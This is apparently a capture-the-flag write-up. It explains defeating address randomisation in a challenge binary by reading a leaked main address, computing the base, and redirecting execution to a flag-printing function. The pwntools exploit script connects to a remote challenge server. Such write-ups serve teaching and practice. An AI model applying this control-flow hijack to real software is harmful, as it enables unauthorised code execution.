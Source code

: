 Just normal address jumping, where the program will output `main` address and there a function to print the flag.

`main`: 0x11A9
`redirect_to_success`: 0x1262

To jump calculate with: `(base_address - 0x11A9) + 0x1262`

```py
from pwn import *

binary = './redirection'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
# r = process(binary)
r = remote('34.131.133.224', 12346)

r.recvuntil('Main function address: ')
main = r.recvline()

main = int(main, 16)
base_address = main - e.symbols['main']
print(f'base_address: {hex(base_address)}')
redirect_to_abyss = base_address + e.symbols['redirect_to_success']

print(f'redirect_to_abyss: {hex(redirect_to_abyss)}')
r.sendline(hex(redirect_to_abyss))
r.interactive()
```